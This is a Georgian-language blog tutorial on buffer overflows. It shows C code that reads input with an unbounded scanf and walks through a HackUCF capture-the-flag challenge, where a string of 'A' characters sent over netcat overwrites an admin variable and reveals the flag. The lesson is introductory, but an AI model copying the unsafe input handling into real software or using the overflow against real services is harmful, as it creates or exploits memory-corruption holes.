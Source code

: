 ```yaml
---
title: "Buffer Overflow ქართულად"
date: 2024-12-23 00:00:00 -0800
categories: Explanations ქართულად
tags: ახსნა ქართულად tutorials explanaton
--- 
```

# რა არის Buffer?

Buffer არის ინფორმაციის შენახვის ადგილი კომპიუტერის მეხსიერებაში, რომელიც გამოიყენება მონაცემთა დამუშავებისთვის და მონაცემთა შესანახად.

მაგალითად ავიღოთ კოდი:

```c
#include <stdio.h>

int main() {
    char name[5];
    
    printf("სახელი: ");
    scanf("%s", name);
    
    printf("გამარჯობა, %s\n", name); 
    return 0;
}
```

ამ შემთხვევაში, Buffer არის name, რომელელშიც შეგვიძლია შევინახოთ მაქსიმუმ 5 სიმბოლო.

# რა არის Buffer Overflow?

Buffer Overflow არის შეხწევადობა რომელიც მაქსიმუმ ინფორმაციაზე მეტის შეტანის შემდეგ ხდება. მაგალითად შეგვიძლია ავიღოთ სათლი და დავიწყოთ მაში წყლის ჩასხმა. თუ ლიმიტზე მეტ წყალს ჩავასხავთ, წყალლი სათლიდან გადმოსვლას დაიწყებს.

ამ შემთხვევაში, ჩვენ თუ შევიტანთ ლიმიტზე მეტ ინფორმაციას, ჩვენი პროგრამა ვერ იმუშავებს ისე როგორც უნდა ემუშავა.

პროგრამამ უნდა იმუშავოს ასე:

```sh
jstr$ gcc main.c
jstr$ ./a.out
სახელი: test1
გამარჯობა, test1
```

თუ შევიტანთ 5ზე მეტ სიმბოლოს, გვექნება ასეთი შედეგი:

```
jstr$ ./a.out
სახელი: Jester
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

`stack smashing detected` ნიშნავს რომ კომპაილერმა (ამ შემთხვევაში gcc-მ) შეამჩნია რომ Buffer Overflow მოხდა, და კოდის ტერმინაცია მოახდინა.

# Buffer Overflow-ს გამოყენება

მაგალითად გამოვიყენებთ HackUCF-ის ამოცანას:

```
Pwn that buffer!

nc ctf.hackucf.org 9000
```

მიბმულია ორი ფაილი, bof1 და bof1.c

გავუშვათ Net Cat:

```
jstr$ nc ctf.hackucf,org 9000

test
Nope!
```

`test` ის შეტანის დროს პასუხად გამოიტანა `Nope!`. მოდით შევხედოთ C ფაილს.

```c
#include <stdio.h>
#include <stdlib.h>

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

int main(void) {
	int admin = 0;
	char buf[32];
	
	scanf("%s", buf);
	
	if(admin) {
		win();
	}
	else {
		puts("nope!");
	}
	
	return 0;
}
```

რადგანაც `buf`-ს აქვს 32 სიმბოლოს ლიმიტი, ჩვენ უნდა შევიტანოთ 32 სიმბოლოზე მეტი.

```
jstr$ python3
Python 3.13.1 (tags/v3.13.1:0671451, Dec  3 2024, 19:06:28) [MSC v.1942 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> print('A'* 50)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

(Python-ს იმიტომ ვიყენებ რომ დათვლა მეზარება T_T )

კიდევ ერთხელ გამოვიყენოთ NetCat :
```
jstr$ nc ctf.hackucf.org 9000
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
flag{my_first_buffer_overflow!}
```


